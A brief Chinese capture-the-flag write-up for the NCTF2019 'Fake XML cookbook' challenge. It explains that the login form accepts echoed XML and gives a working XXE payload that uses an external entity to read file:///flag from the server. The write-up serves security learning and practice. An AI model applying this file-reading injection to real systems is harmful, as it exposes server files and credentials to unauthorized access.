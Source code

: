 # \[NCTF2019]Fake XML cookbook

## \[NCTF2019]Fake XML cookbook

## 考点

* XXE

## wp

打开就是登录界面，抓包，是XML

![](<../.gitbook/assets/image (34).png>)

会回显username，直接进行XXE注入

```xml
<!DOCTYPE ANY [
    <!ENTITY test SYSTEM "file:///flag">
]>
<user><username>&test;</username><password>123</password></user>
```

![](<../.gitbook/assets/image (27) (1).png>)
